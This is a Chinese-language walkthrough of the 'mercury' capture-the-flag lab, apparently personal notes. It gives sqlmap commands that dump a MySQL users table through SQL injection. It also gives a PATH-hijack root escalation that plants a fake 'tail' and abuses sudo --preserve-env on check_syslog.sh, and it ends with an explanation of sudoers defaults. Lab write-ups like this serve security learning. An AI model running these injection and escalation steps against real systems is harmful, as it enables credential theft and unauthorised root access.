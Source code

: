 

---

## mercury

```
cpython 中间件 输入错误的目录会有报错回显 显示他有的目录 很不安全

用/admin测试 没有目录会报错
发现其他目录
遍历其他目录 1234 看他的todolist 发现有mysql

sqlmap 自动梭哈
sqlmap -u http://192.168.1.106:8080/mercuryfacts/8 --dbs  --batch

sqlmap -u http://192.168.1.106:8080/mercuryfacts/8 --dbs mysql -D mercury  --tables --batch

sqlmap -u http://192.168.1.106:8080/mercuryfacts/8 --dbs mysql -D mercury  -T users  -dump --batch

得到users表里面的数据 用webmaster ssh登录

whoami
uname -a ubuntu的话
lsb_release -a

sudoers提权
软链接封装 vi 使用命令进入vi 用vi提权
在~目录下
ln -s /bin/vi （可以提权的命令）tail 用软链接的方式 把能提权的命令vi 装到tail中
ls -liah
设置环境变量
export PATH=.:$PATH 把当前路径 . 放在环境变量前 在执行命令时会有限找当前路径下的同名文件
echo $PATH
sudo --preserve-env=PATH 命令
会进入vi
esc : vi命令行输入 :!bash

echo "/bin/bash" > tail
chmod +x tail
export PATH=.:$PATH
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```

```
当在Linux系统中使用sudo命令时，需要指定要以哪个用户的身份来执行命令。通常情况下，这个用户是root用户，因为root用户具有系统中最高的权限。但是，为了安全起见，Linux系统允许管理员将特定的命令授权给普通用户，以便在需要时以root权限运行这些命令。

在这个例子中，我们看到了一个名为"linuxmaster"的用户，该用户在"mercury"主机上被授予了一个特定的sudo权限。这个权限允许该用户以root用户的身份运行一个名为"/usr/bin/check_syslog.sh"的脚本，同时允许该脚本使用该用户的环境变量。

此外，我们还看到用户"linuxmaster"的sudo默认配置。这些配置涉及到sudo命令在没有特定指令时所采用的默认行为。在这个例子中，"linuxmaster"的sudo默认配置包括重置环境变量、发送邮件通知密码错误以及使用指定的安全路径来执行命令。这些默认配置可以在sudoers文件中进行修改，以满足不同的安全需求和使用场景。

具体来说，"env_reset"选项表示在执行sudo命令时重置环境变量，以避免环境变量被恶意用户利用来执行恶意代码。"mail_badpass"选项表示如果用户使用了错误的密码，sudo将发送电子邮件通知管理员。"secure_path"选项则指定了一个安全的路径列表，用于在sudo命令中执行系统命令。这样可以避免使用恶意代码或非授权的程序。

总之，这些配置项和特定命令的授权使得管理员可以更加精细地控制用户在系统上的操作，从而提高了系统安全性。
```
